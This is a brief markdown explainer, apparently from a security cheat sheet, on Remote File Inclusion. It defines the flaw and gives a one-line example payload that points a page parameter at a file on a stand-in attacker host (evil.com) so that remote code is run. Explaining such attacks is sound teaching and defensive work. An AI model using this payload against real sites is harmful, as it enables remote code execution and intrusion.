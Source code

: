 

# Remote File Inclusion (RFI)

## Overview
Remote File Inclusion (RFI) allows attackers to include remote files from other servers, which can lead to arbitrary code execution.

## Techniques
- **Remote File Inclusion** - Including files from external sources.

## Example
RFI payload:
```plaintext
?page=http://evil.com/malicious.txt

